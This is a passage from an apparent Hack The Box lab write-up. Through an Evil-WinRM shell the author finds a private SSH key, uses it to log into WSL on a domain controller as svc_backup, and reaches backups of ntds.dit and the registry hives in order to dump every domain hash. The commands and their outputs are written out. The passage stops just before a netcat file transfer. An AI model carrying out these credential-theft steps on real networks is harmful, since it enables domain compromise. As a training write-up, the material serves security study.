 ```
*Evil-WinRM* PS C:\IT\Third-Line Support> ls


    Directory: C:\IT\Third-Line Support


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         1/30/2025   8:11 AM                Backups
-a----         1/30/2025   8:10 AM           2602 id_rsa
-a----         1/30/2025   8:07 AM            186 Note.txt.txt


*Evil-WinRM* PS C:\IT\Third-Line Support> cat Note.txt.txt
Jeremy,

I've had enough of Windows Backup! I've part configured WSL to see if we can utilize any of the backup tools from Linux.

Please see what you can set up.

Thanks,

Admin
*Evil-WinRM* PS C:\IT\Third-Line Support> cd Backups
*Evil-WinRM* PS C:\IT\Third-Line Support\Backups> ls
Access to the path 'C:\IT\Third-Line Support\Backups' is denied.
<SNIP>
```
## Using the Private Key to SSH to WSL
One intersting user we saw before in the excel spreadsheet was the `svc_backup`, the backups user usually has some high priviledge for example this servcie might be able to backup the entire domain into a folder which might give us access to the ntds.dit file whcih would give us access to all the hashes in the domain. Remember that we saw ssh was running on the domain controller on port 2222 before in the nmap scan. We can copy the `id_rsa` file into our machine and then use ssh to login as the `svc_backup`.

```
chmod 600 id_rsa
ssh -i id_rsa svc_backup@voleur.htb -p 2222
```

Since we know that this Linux system is WSL we can navitate to the `/mnt` directory whcih will contain the entire file system of the domain controller. We can then access the `Backups` folder we had access denied to earlier.

```
svc_backup@DC:/mnt/c/IT/Third-Line Support/Backups$ ls
'Active Directory'   registry
svc_backup@DC:/mnt/c/IT/Third-Line Support/Backups$ ls Active\ Directory/
ntds.dit  ntds.jfm     
svc_backup@DC:/mnt/c/IT/Third-Line Support/Backups$ ls registry/
SECURITY  SYSTEM
```
## Dumping the Domain Hashes
We strike gold, we can decrypt the ntds.dit file with the Security registry copy. We can transfer the files back to our machine, wget did not really work for me so I used netcat to transfer the files as follows:
